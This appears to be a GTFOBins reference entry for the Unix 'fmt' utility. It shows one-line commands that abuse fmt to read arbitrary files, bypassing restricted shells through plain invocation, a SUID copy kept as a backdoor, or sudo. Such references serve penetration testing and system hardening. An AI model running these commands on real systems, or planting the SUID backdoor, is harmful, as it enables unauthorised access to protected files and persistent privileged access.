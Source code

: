 # GTFOBin: fmt

The read file content is not binary-safe.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This only works for the GNU version of `fmt`.

```
LFILE=file_to_read
fmt -pNON_EXISTING_PREFIX "$LFILE"
```

This corrupts the output by wrapping very long lines at the given width.

```
LFILE=file_to_read
fmt -999 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This corrupts the output by wrapping very long lines at the given width.

```
sudo install -m =xs $(which fmt) .

LFILE=file_to_read
./fmt -999 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This corrupts the output by wrapping very long lines at the given width.

```
LFILE=file_to_read
sudo fmt -999 "$LFILE"
```